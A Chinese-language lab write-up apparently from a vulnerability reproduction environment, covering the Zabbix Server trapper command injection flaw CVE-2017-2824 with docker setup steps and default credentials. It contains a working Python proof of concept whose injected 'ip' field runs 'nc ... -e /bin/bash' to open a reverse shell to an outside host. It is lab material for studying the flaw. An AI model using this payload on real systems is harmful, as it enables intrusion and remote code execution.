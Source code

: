# Zabbix Server trapper命令注入漏洞（CVE-2017-2824）

Zabbix 是由Alexei Vladishev 开发的一种网络监视、管理系统，基于 Server-Client 架构。其Server端 trapper command 功能存在一处代码执行漏洞，特定的数据包可造成命令注入，进而远程执行代码。攻击者可以从一个Zabbix proxy发起请求，从而触发漏洞。

参考链接：

- https://talosintelligence.com/reports/TALOS-2017-0325

## 环境搭建

执行如下命令启动一个完整的Zabbix环境，包含Web端、Server端、1个Agent和Mysql数据库：

```
docker-compose up -d
```

命令执行后，执行`docker-compose ps`查看容器是否全部成功启动，如果没有，可以尝试重新执行`docker-compose up -d`。

利用该漏洞，需要你服务端开启了自动注册功能，所以我们先以管理员的身份开启自动注册功能。使用账号密码`admin/zabbix`登录后台，进入Configuration->Actions，将Event source调整为Auto registration，然后点击Create action，创建一个Action，名字随意：

![](1.png)

第三个标签页，创建一个Operation，type是“Add Host”：

![](2.png)

保存。这样就开启了自动注册功能，攻击者可以将自己的服务器注册为Agent。

## 漏洞复现

使用这个简单的POC来复现漏洞,修改26行的ip地址，并且本地侦听4444端口，运行即可收到反弹的shell：

```python
import socket
import json
import sys


def send(ip, data):
    try:
        conn = socket.create_connection((ip, 10051), 10)
        conn.send(json.dumps(data).encode())
        data = conn.recv(2048)
        conn.close()
    except socket.timeout :
        print("May have received the shell")
        exit()

    return data


target = sys.argv[1]
while(True):
    print(send(target, {"request":"active checks","host":"vulhub","ip":";nc -nv 172.30.100.84 4444 -e /bin/bash"}))
    for i in range(10000, 10500):
        data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
        if data and b'failed' not in data:
            print('hostid: %d' % i)
            print(data)
```



